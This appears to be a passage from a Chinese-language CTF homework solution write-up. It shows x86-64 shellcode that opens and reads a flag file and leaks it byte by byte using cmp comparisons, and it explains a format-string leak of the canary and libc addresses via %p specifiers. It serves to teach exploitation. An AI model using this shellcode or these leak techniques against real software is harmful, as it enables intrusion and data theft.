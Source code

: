 ```=
\x0F\x05                              syscall
\x41\xFF\xE7                          jmp    r15
```
既然題目有說flag會放在`/home/pekopeko/flag`而且可以使用`open`跟`read`那就使用open來把flag打開
```=
mov rax, 0x67616c
push rax
mov rax, 0x662f6f6b65706f6b
push rax
mov rax, 0x65702f656d6f682f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall     /* open */
```
然後用read把她讀出來放在bss段上
```=
mov rdi, rax
mov rsi, 0x406e00
mov rdx, 0x30
xor rax, rax
syscall     /* read */
```
讀出來後沒有`write`可以使用，所以讀完沒辦法直接印在螢幕上，但是可以控制用一個暫存器指向存放flag的bss段，接著把裡面的東西一次1 byte讀出來用`cmp`做比較比較看看是不是相等的，就可以把flag給1 byte 1 byte戳出來
```=
add al, {idx}
mov bl, byte ptr [rax]
cmp bl, {i}
```

[exploit](/HW1_TA_solution/pekopeko/exploit.py)

## maplemiko
author: maple3142
### 考點
1. fmt
### exploit
#### TA version
這題存在format string的漏洞
```c=
printf(str, str);
```
所以如果輸入%p %p %p %p之類的可以把stack後面的東西印出來
![](https://i.imgur.com/iHb515J.png)

而stack上有canary libc等等所需的東西再加上沒有次數限制，所以只要知道它存在第幾個位置就可以用`%x$p`把東西給leak出來
![](https://i.imgur.com/KnspxsZ.png)
